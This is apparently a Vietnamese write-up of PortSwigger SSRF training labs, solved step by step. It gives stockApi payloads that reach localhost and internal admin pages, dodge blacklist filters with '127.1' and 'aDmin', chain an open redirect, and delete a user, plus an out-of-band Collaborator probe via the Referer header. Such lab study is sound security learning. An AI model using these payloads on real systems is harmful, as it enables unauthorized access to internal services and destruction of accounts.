 # 1. Basic SSRF against the local server
Truy cập /admin, ta nhận được thông báo: "Admin interface only available if logged in as an administrator, or if requested from loopback".

Khi sử dụng chức năng checkStock, request `POST /product/stock` với parameter `stockApi=http%3A%2F%2Fstock.weliketoshop.net%3A8080%2Fproduct%2Fstock%2Fcheck%3FproductId%3D3%26storeId%3D1`. Như vậy ta sẽ thử thay đổi stockApi để access trang admin với tư cách localhost.

Thay đổi tham số `stockApi=http://localhost/admin`, kết quả thành công.

![image](https://user-images.githubusercontent.com/103978452/205523955-5692177a-7acd-42ba-ac37-2f98bbff4ebb.png)

Thay đổi `stockApi=http://localhost/admin/delete?username=carlos` để giải bài lab.

# 2. Basic SSRF against another back-end system
Đưa request `POST /product/stock` vào Intruder với payload: `stockApi=http%3A%2F%2F192.168.0.0%3A8080`, thực hiện bruteforce chữ số cuối trong IP address với phạm vi từ 0 đến 255. Ta thấy chỉ với IP 192.168.0.151 thì hiển thị mã lỗi 404:

![image](https://user-images.githubusercontent.com/103978452/205553868-d23ea3bc-56bf-4d80-b9b9-1a4c891116c7.png)

Thay đổi tham số `stockApi=http%3A%2F%2F192.168.0.151%3A8080%2Fadmin`, ta truy cập trang admin thành công. Tiếp tục thay đổi thành `stockApi=http%3A%2F%2F192.168.0.151%3A8080%2Fadmin%2Fdelete?username=carlos` để xóa user carlos.
![image](https://user-images.githubusercontent.com/103978452/205554210-25fe920a-1573-4b04-93c7-10a8a9521c06.png)

# 3. SSRF with blacklist-based input filter
Thay đổi `stockApi=http://localhost` thì thấy thông báo lỗi "External stock check blocked for security reasons"

Thay đổi thành `stockApi=http://127.1`, kết quả thành công. Tuy nhiên khi truy cập admin `stockApi=http://127.1/admin` thì lại hiển thị lỗi. Như vậy có khả năng server đã chặn từ khóa "admin".

Ta thử thay đổi `stockApi=http://127.1/aDmin`, kết quả truy cập trang admin thành công. Sau đó lại đổi thành `stockApi=http://127.1/aDmin/delete?username=carlos`, kết quả user carlos bị xóa.

![image](https://user-images.githubusercontent.com/103978452/205544461-b7b85229-b774-4cea-8c2f-f2eaeff2db71.png)

# 4. SSRF with filter bypass via open redirection vulnerability
Thử với tham số `stockApi=http%3A%2F%2F192.168.0.12%3A8080%2Fadmin`, kết quả không thành công. Như vậy không thể sử dụng chức năng stock check để truy cập một URL trực tiếp như vậy.

Thử thay đổi tham số `stockApi=%2Fproduct%2FnextProduct%3FcurrentProductId%3D3%26path%3Dhttp%3A%2F%2F192.168.0.12%3A8080%2Fadmin`, ta thấy thành công và kết quả trả về là trang admin.

Để xóa user carlos, ta thay đổi tham số stockApi thành `stockApi=%2Fproduct%2FnextProduct%3FcurrentProductId%3D3%26path%3Dhttp%3A%2F%2F192.168.0.12%3A8080%2Fadmin%2Fdelete%3Fusername%3Dcarlos`. Kết quả thành công.

![image](https://user-images.githubusercontent.com/103978452/205566041-5c14d2f9-1c00-4743-86d5-7e45b055542b.png)

# 5. Blind SSRF with out-of-band detection
Trong request `GET /product?productId=2`, ta thay đổi header Refererer trỏ đến địa chỉ của Burp Collaborator server (`Referer: https://c9moh0mqbmk53klvhwgtfmzsmjs9gy.oastify.com`). Resend request, ta thấy trong Burp Collaborator client nhận được các request gửi đến. Bài lab được giải thành công.

![image](https://user-images.githubusercontent.com/103978452/205568329-61e71132-5286-4bec-a560-855a51002781.png)

# 6. SSRF with whitelist-based input filter

# 7. Blind SSRF with Shellshock exploitation
